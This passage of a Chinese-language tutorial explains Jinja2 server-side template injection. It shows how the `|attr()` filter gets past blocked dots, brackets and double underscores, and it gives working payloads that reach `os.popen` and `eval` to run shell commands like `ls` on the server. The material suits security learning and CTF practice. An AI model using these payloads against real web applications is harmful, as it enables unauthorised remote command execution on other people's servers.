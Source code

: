 这里说一个新东西，就是原生 JinJa2 函数 `attr()`，这是一个 `attr()` 过滤器，它只查找属性，获取并返回对象的属性的值，过滤器与变量用管道符号（ `|` ）分割。如：

```
foo|attr("bar")   等同于   foo["bar"]


```

`|attr()` 配合其他姿势可同时绕过双下划线 `__` 、引号、点 `.` 和 `[` 等，下面给出示例。

### 同时过滤了 . 和 []

过滤了以下字符：

```
.    [

```

绕过姿势：

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}


```

等同于：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}


```

### 同时过滤了 __ 、点. 和 []

过滤了以下字符：

下面我们演示绕过姿势，先写出 payload 的原型：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}


```

由于中括号 `[` 被过滤了，我们可以用 `__getitem__()` 来绕过（尽量不要用 pop()），类似如下：

```
{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}


```

由于还过滤了下划线 `__`，我们可以用 request 对象绕过，但是还过滤了中括号 `[]`，所以我们要同时绕过 `__` 和 `[`，就用到了我们的`|attr()`
